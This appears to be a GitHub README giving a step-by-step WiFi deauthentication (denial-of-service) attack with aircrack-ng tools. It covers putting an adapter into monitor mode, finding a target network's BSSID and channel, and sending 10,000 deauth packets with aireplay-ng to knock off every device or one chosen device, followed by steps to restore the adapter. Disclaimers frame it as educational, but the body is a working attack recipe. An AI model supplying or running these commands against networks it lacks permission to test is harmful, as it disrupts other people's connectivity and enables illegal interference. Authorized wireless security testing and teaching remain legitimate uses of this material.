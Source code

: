 # WiFi DOS Attack (Deauthentication Attack)

## Disclaimer  
This guide is for educational purposes only. Unauthorized access to networks is illegal and punishable under law. Only perform these actions on networks you own or have permission to test.  

---

## Step-by-Step Guide  

### Step 1: Enable Monitoring Mode  
First, put your WiFi adapter into monitoring mode. Run:  

```bash
airmon-ng start wlan0
```
Replace `wlan0` with your adapter's name. You can check the name using:  

```bash
ifconfig
```
or  

```bash
iwconfig
```

---

### Step 2: Verify Monitoring Mode  
Confirm that your network adapter is now in monitoring mode:  

```bash
ifconfig
```
or  

```bash
iwconfig
```
Once confirmed, proceed to the next step.  

---

### Step 3: Scan for Target WiFi  
Find the **BSSID** (MAC address) and **channel** of the target WiFi network:  

```bash
airodump-ng wlan0
```
This will scan for nearby WiFi networks. Once you spot your target, press `Ctrl + C` to stop scanning.  

Copy the **BSSID** and **channel** of the target WiFi.  

---

### Step 4: Focus on the Target WiFi  
Now, scan only the target WiFi network to view connected devices:  

```bash
airodump-ng --channel {channel_number} --bssid {bssid} wlan0
```
Replace `{channel_number}` and `{bssid}` with the values you copied earlier.  

This will display only the connected devices on the target network.  

---

### Step 5: Launch the Deauthentication (DOS) Attack  

#### Attack the Entire WiFi Network  
Send deauthentication packets to disconnect all devices from the target WiFi:  

```bash
aireplay-ng --deauth 10000 -a {bssid} wlan0
```
This sends 10,000 deauth packets to the target network. You can increase or decrease the number based on your needs.  

#### Attack a Specific Device  
If you want to target a specific device, use its MAC address (Station ID) from the previous scan:  

```bash
aireplay-ng --deauth 10000 -a {bssid} -c {device_mac} wlan0
```
Replace `{device_mac}` with the MAC address of the device you want to disconnect.  

---

## Notes  
- You need a **compatible WiFi adapter** that supports **monitor mode** and **packet injection**.  
- This attack **does not break WiFi encryption**; it only **disconnects devices** temporarily.  
- The attack stops when you stop running the command.
## How to get netwek to restart 
- Run:

```bash
sudo airmon-ng stop wlan0mon
```
- Make sure your adapter is showing up. If it's not up, run:

```bash
ifconfig wlan0 up
```
- Restart the services that you killed.

- Run:
```bash
service NetworkManager start
```
- Note: service network-manager start will give a message saying it's not installed. Hence, run:
```bash
sudo service NetworkManager start
```
- Your Wi-Fi adapter should restart at this point, so give it a second to show up.

---

## Legal Warning  
Performing unauthorized attacks on networks you don’t own is illegal and can result in severe penalties. Always ensure you have explicit permission before testing network security.  
